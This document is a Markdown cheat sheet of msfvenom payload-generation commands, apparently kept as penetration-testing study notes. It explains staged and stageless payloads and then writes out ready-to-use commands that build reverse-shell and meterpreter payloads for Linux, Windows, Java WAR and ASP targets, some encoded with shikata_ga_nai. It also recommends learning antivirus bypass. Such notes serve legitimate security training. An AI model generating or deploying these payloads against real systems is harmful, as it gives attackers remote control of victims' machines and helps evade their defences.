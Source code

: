 # MSFvenom

MSFvenom combines MSFpayload with MSFencode, making it possible to use both tools in a single framework instance. MSFvenom is capable of creating shellcode for a wide range of platforms.

The standard syntax for `msfvenom`:

    msfvenom -p <PAYLOAD> <OPTIONS>

* Staged payloads are sent in two parts. The first part is called the stager. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead, it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional antivirus solutions. Thus, the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually the Metasploit `multi/handler`.
* Stageless payloads are more common. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.

Stageless payloads are denoted with underscores (`_`). A Linux 32bit stageless meterpreter payload:

    msfvenom -p linux/x86/meterpreter_reverse_tcp -f elf -o shell LHOST=<IP address attack machine> LPORT=<port-number>

Staged payloads are denoted with another forward slash (`/`). A staged meterpreter reverse shell for a 64bit Linux target:

    msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=<IP address attack machine> LPORT=<port-number>

To generate a Windows x64 Reverse Shell in an `.exe` format:

    msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<IP address attack machine> LPORT=<port-number>

Buffer overflow code for Linux with bad characters in C:

    msfvenom -p linux/x86/shell_reverse_tcp LHOST=<attacking-ipaddress> LPORT=4444 -f c -b "\x00" –e x86/shikata_ga_nai

Linux payload for `bash`:

    msfvenom -p linux/x86/shell_reverse_tcp LHOST=<attacking-ipaddress> LPORT=4444 CMD=/bin/bash -f js_le -e generic/none

Java payload to a `.war` file:

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attacking-ipaddress> LPORT=4444 -f war > shell.war

Microsoft Windows `asp` reverse shell:

    msfvenom -p windows/shell_reverse_tcp -f asp LHOST=<attacking-ipaddress> LPORT=4444 -o shell.asp

Windows executable reverse shell:

    msfvenom -p windows/shell/reverse_tcp LHOST=<attacking-ipaddress> LPORT=4444 -e x86/shikata_ga_nai X > shell.exe

## Note on meterpreter shells

Meterpreter shells are completely stable, making them a very good thing when working with Windows targets. They also have a lot of inbuilt functionality, such as file uploads and downloads. If you want to use any of Metasploit's post-exploitation tools then you need to use a meterpreter shell.

The downside to meterpreter shells is that they must be caught in Metasploit. They are also banned from certain certification examinations, so it is a good idea to learn alternative methodologies just for that.

** Metasploit is extendable, always being updated, and relevant. In real engagements most AV solutions will easily spot meterpreter payloads. Also learn about bypassing AV.**
